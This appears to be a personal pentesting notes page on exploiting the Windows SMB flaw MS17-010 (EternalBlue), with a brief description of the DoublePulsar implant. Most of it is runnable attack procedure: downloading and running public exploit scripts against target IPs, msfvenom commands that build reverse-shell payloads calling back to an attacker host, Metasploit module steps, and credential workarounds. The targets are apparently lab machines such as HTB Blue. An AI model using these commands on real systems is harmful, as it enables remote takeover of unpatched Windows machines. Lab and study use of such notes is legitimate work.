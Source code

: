 ```yaml
---
layout: post
title: Eternal Blue - Exploits
description: Eternal Blue - Exploits
summary: Eternal Blue - Exploits
tags: [windows,foothold,smb,privesc]
minute: 1
---
```

## Double Pulsar
* A sophisticated backdoor implant which serves as a loading dock for other exploits
* RAM-resident implant
	* Removed when system is rebooted?
	* Once installed on victim system, it can receive additional malwares and remote commands
* Can also infect RDP
* Here is an example [detection script](https://github.com/countercept/doublepulsar-detection-script)

## 42315.py
* Seems not working for windows xp

```bash
# Get mysmb module
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

# Install dependencies
virtualenv -p py2 virtualenv_eternalblue
source virtualenv_eternalblue/bin/activate
pip install impacket
searchsploit -m 42315.py

# Optional - add username pass (use this if
# anonymous login doesn't work)
(virtualenv_eternalblue) ➜  relevant cat 42315.py| egrep '^(USER|PASS)'
USERNAME = 'Bob'
PASSWORD = '!P@$$W0rD!123'
(virtualenv_eternalblue) ➜  relevant 

# Run
python 42315.py 10.10.82.56
```

## 42031.py
* Seems not working on windows xp
* Also crashes "Windows 7 Professional 7601 Service Pack 1" (HTB Blue)

```bash
# Setup similar virtualenv with 42315.py
searchsploit -m 42031.py

# Update credentials
(virtualenv_eternalblue) ➜  relevant cat 42031.py | grep login_standard
	conn.login_standard('Bill', 'Juw4nnaM4n420696969!$$$')
(virtualenv_eternalblue) ➜  relevant

# Generate shell code file
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.40.33 LPORT=4444 -e x86/shikata_ga_nai -f exe -o eternalblue.exe

# Run
python 42031.py 10.10.177.9 eternalblue.exe

# NOTE: This doesnt work for windows server 2016
```

## Metasploit
* Seems the most stable

```bash
# If victim is vulnerable to ms17-010 eternalblue,
# try to use metasploit. NOTE: if this fail on first
# time try running it a couple more times.
msf> use windows/smb/ms17_010_eternalblue
msf> set rhosts 10.10.10.13
msf> set lhost tun0
msf> set payload windows/x64/shell/reverse_tcp
msf> run

# Try upgrading to meterpreter shell
```

## send_and_execute.py
* Versions tested:
	* Windows 7 Professional 7601 Service Pack 1 (HTB Blue)
* Get `mysmb.py` [here](https://github.com/worawit/MS17-010/blob/master/mysmb.py)
* Generate payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
```

* Open netcat listener
* Run `send_and_execute.py`. Get it [here](https://github.com/helviojunior/MS17-010).

```bash
python send_and_execute.py legacy ms17-010.exe
```

## Troubleshooting
* If you get permission errors on named pipes, try changing usernames to `\` and password blanks

```python
USERNAME = '\\'
PASSWORD = ''
```

## References
* [DoublePulsar – A Very Sophisticated Payload for Windows](https://www.secpod.com/blog/doublepulsar-a-very-sophisticated-payload-for-windows/)
* [Open-Source Command and Control of the DOUBLEPULSAR Implant](https://www.rapid7.com/blog/post/2019/10/02/open-source-command-and-control-of-the-doublepulsar-implant/)
* [MS17-010 Exploits](https://github.com/worawit/MS17-010)